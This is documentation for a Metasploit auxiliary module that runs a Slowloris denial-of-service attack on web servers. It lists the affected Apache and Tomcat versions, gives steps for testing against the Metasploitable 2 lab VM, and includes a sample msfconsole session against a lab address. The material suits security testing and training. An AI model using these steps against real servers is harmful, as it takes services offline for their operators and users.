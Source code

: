 ## Vulnerable Application

This module tries to keep many connections to the target web server open and hold them open as long as possible.

To test this module download and setup the Metasploitable 2 vulnerable Linux virtual machine available at [https://sourceforge.net/projects/metasploitable/files/Metasploitable2/](https://sourceforge.net/projects/metasploitable/files/Metasploitable2/).

Vulnerable app versions include:

- Apache HTTP Server 1.x and 2.x
- Apache Tomcat 5.5.0 through 5.5.29, 6.0.0 through 6.0.27 and 7.0.0 beta

## Verification Steps

1. Start msfconsole
2. Do: `use auxiliary/dos/http/slow_loris`
3. Do: `set RHOST`
4. Do: `run`
5. Visit server URL in your web-browser.

## Scenarios

### Apache/2.2.8 - Ubuntu 8.04

```
msf > use auxiliary/dos/http/slow_loris5
msf auxiliary(slow_loris5) > show options 

Module options (auxiliary/dos/http/slow_loris5):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   HEADERS  10               yes       The number of custom headers sent by each thread
   RHOST                     yes       The target address
   RPORT    80               yes       The target port (TCP)
   THREADS  1000             yes       The number of concurrent threads

msf auxiliary(slow_loris5) > set RHOST 192.168.216.129
RHOST => 192.168.216.129
msf auxiliary(slow_loris5) > run

[*] 192.168.216.129:80 - Executing requests 1 - 1000...

```
